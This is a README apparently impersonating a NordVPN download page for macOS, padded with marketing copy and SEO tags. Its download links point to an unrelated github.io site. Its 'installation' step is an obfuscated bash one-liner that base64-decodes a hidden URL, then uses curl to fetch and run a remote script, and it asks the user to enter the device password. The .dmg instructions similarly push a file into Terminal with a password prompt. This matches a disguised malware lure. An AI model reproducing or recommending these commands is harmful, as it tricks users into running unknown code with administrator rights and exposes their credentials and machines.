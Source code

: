 # 🛡️ NordVPN — Secure & Fast VPN for macOS

**NordVPN** is a leading VPN service designed to provide macOS users with secure, private, and fast internet access. With NordVPN, you can encrypt your online traffic, unblock geo-restricted content, and protect your privacy on MacBook, iMac, and other Apple devices.

Optimized for macOS and Apple Silicon, NordVPN offers a seamless and reliable experience with thousands of servers worldwide.

---

## ✅ Download NordVPN for macOS  
[![Download NordVPN](https://img.shields.io/badge/Download-NordVPN-blueviolet)](https://shuziktobehuman.github.io/huja/NordVPN)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 🛡️ What is NordVPN?

NordVPN encrypts your internet connection and hides your IP address to secure your data from hackers, ISPs, and government surveillance. It provides fast streaming, safe browsing on public Wi-Fi, and easy access to global content with its extensive server network.

Fully compatible with the latest macOS versions and Apple Silicon chips, NordVPN ensures privacy without compromising speed.

---

## ✨ Features

- 🔒 Military-grade AES-256 encryption  
- 🌍 Access to 5,000+ servers worldwide  
- ⚡ Ultra-fast and reliable connection speeds  
- 🛡 CyberSec technology for ad and malware blocking  
- 🖥 Native app optimized for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  
- 🔄 Automatic Kill Switch to protect your IP if VPN drops  
- 🌐 Support for split tunneling and custom DNS  
- 🔐 No-logs policy with audited privacy practices  

---

## 💡 Why Use NordVPN?

- 🔐 Keep your internet activity private and secure  
- 🚀 Stream and browse without restrictions  
- 🧩 Easy-to-use interface tailored for Mac users  
- 🛡 Protect your data on public Wi-Fi networks  
- 🌎 Connect to servers worldwide for best performance  

---

[![Download NordVPN](https://img.shields.io/badge/Download-NordVPN-blueviolet)](https://shuziktobehuman.github.io/huja/NordVPN)

---



## 🖼 Preview

![NordVPN Screenshot 1](https://www.security.org/app/uploads/2023/12/NordVPN-on-Mac.png)  
![NordVPN Screenshot 2](https://www.security.org/app/uploads/2023/12/NordVPN-connected-to-Australia.png)

---

## 📌 Tags

nordvpn mac  
nordvpn download mac  
nordvpn mac download  
nordvpn download for mac  
download nordvpn mac  
nordvpn on mac  
mac nordvpn  
nordvpn osx  
nordvpn macos  
nord for mac  
nordvpn mac app  
nordvpn for mac download  
vpn mac  
best vpn for mac  
mac vpn software  
apple silicon vpn  
macbook vpn app  
secure vpn mac  
fast vpn mac  
privacy vpn mac  
vpn for macbook pro  
